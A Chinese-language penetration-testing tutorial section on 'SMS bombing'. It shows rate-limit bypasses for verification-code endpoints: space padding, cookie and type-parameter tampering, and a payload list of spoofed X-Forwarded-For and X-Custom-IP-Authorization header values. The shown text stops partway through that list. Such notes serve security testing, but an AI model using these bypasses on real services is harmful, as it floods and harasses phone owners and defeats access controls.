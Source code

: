 

# 9. 短信轰炸

## 原理

在一些身份校验处，有的时候需要输入手机号，接受验证码，比如登录、忘记密码、注册、绑定、活动领取、反馈处等，如果没有对发送短信进行约束，可以达到5秒发送10条短信，甚至更多的短信，

**对业务造成影响**

1. 横向轰炸：对单个手机号码做了接收验证次数，但是可以对不同手机号发送短信无次数限制 
2. 纵向轰炸：对一个手机号码轰炸多次



# 具体操作

![image-20230528222253941](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230528222253941.png)



> 1. 利用空格绕过短信条数限制通过在参数值的前面加上空格，或者后面加上，或者多个空格，进行绕过一天内发送次数的限制，mobile= 19978657654,前面加个空格，就可以再次发送成功。,  即使让逻辑出错
>
> 2. **修改cookie** , 有些发送短信的次数是根据cookie值进行判断，利用当前cookie值来验证发送次数的话，很容易被绕过
>
> 3. **修改接口标记** , 发送短信验证，可能会设置参数值的不同，来判断是执行什么样的功能。比如type=1是注册，type=2是忘记密码，type=3是修改密码等。我们可以通过修改参数值，来绕过一分钟内只发送一次限制，达到短信轰作的目的
>
>    `接口标记名字不固定, 常见的接口例如: smsType, r,n,number, apitype`
>
> 4. **修改ip绕过短信**, 有的验证码是通过访问数据包的1P来做限制，比如**X-Forwarded-For**这个包参数，因此可以修改X-Forwarded- For后面的1P地址来进行绕过
>
>    ```
>    # 一些收集到的X-Forwarded-For
>    
>    X-Custom-IP-Authorization: localhost
>    X-Custom-IP-Authorization: localhost:80
>    X-Custom-IP-Authorization: localhost:443
>    X-Custom-IP-Authorization: 127.0.0.1
>    X-Custom-IP-Authorization: 127.0.0.1:80
>    X-Custom-IP-Authorization: 127.0.0.1:443
>    X-Custom-IP-Authorization: 2130706433
>    X-Custom-IP-Authorization: 0x7F000001
>    X-Custom-IP-Authorization: 0177.0000.0000.0001
>    X-Custom-IP-Authorization: 0
>    X-Custom-IP-Authorization: 127.1
>    X-Custom-IP-Authorization: 10.0.0.0
>    X-Custom-IP-Authorization: 10.0.0.1
>    X-Custom-IP-Authorization: 172.16.0.0
>    X-Custom-IP-Authorization: 172.16.0.1
>    X-Custom-IP-Authorization: 192.168.1.0
>    X-Custom-IP-Authorization: 192.168.1.1
>    X-Forwarded-For: localhost
>    X-Forwarded-For: localhost:80
>    X-Forwarded-For: localhost:443
>    X-Forwarded-For: 127.0.0.1
>    X-Forwarded-For: 127.0.0.1:80
>    X-Forwarded-For: 127.0.0.1:443
>    X-Forwarded-For: 2130706433
>    X-Forwarded-For: 0x7F000001
>    X-Forwarded-For: 0177.0000.0000.0001
>    X-Forwarded-For: 0